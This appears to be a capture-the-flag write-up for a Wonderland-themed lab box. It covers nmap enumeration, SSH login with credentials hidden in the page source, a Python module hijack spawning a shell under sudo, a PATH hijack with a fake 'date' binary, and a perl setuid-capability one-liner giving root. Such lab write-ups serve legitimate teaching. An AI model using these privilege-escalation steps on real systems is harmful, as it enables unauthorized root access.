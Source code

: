 1. Enumaration:
	
		$$ nmap -sC -sV -oN nmap 10.10.126.5

		==> Nmap 7.92 scan initiated Mon Apr  4 12:07:20
		PORT   STATE SERVICE VERSION

		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
		|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
		|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)

		80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
		|_http-title: Follow the white rabbit.
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	## found a hidden id & password in source of page in location: [view-source:http://10.10.126.5/r/a/b/b/i/t/]

	==> <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>

2. Exploitation:

	$$ ssh alice@<IP> //Using that password

3. Privilage escalation(horizontal):

	## As we have the password so do:-

		$$ sudo -l

		==> (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

	## I can run that python script using python3.6 as rabbit user

		$$ cat /home/alice/walrus_and_the_carpenter.py

		==> import random
			...
			for i in range(10):
				...
				print(...)

	## As we can see it is importing the random module.

	## every time a python programm runs it checks all the modules in current directory before finding other location.

	## So we can create a fake random module in current directory.

		$$ nano random.py

		==> import os
			os.system('/bin/bash')

	## Run the script again as the rabbit user

		$$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

	## We are now rabbit user

		$$ cd ../rabbit/


4. Privilage escalation(vertical):

		$$ cat taeParty

		==> The Mad Hatter will be here soon.^@^@^@^@^@/bin/echo -n 'Probably by' && date --date='next hour'

	## Notice that it is running the date command without it's full path.So we can abuse that.

		$$ which date

		==> /bin/date

	## We have no write permission in the '/bin' directory.[$$ touch /bin/a.txt]

		$$ echo $PATH
		$$ export PATH=/home/rabbit:$PATH
		$$ echo $PATH

	## We added our current diarectory in PATH variable

	## creat a fake date in current directory
		
		$$ nano date

		==> /bin/bash

		$$ ./teaParty

	## We are now hatter or we have uid of hatter but we have no gid of hatter.

		$$ id

		==> uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)

		$$ cd ../hatter/

		$$ cat password.txt

		==> WhyIsARavenLikeAWritingDesk?

	## Again login in hatter account with the password.

		$$ su hatter	

		$$ id 

		==> uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)


5. Privilage escalation(vertical)L:

	## Now we have both uid & gid of hatter

		$$ ./linpeas.sh

		==> Files with capabilities (limited to 50):
			/usr/bin/perl5.26.1 = cap_setuid+ep
			/usr/bin/mtr-packet = cap_net_raw+ep

			/usr/bin/perl = cap_setuid+ep

	## perl hash the setuid capabilities.We can abuse that.

	## According to GTFOBins:

		$$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

## We are now root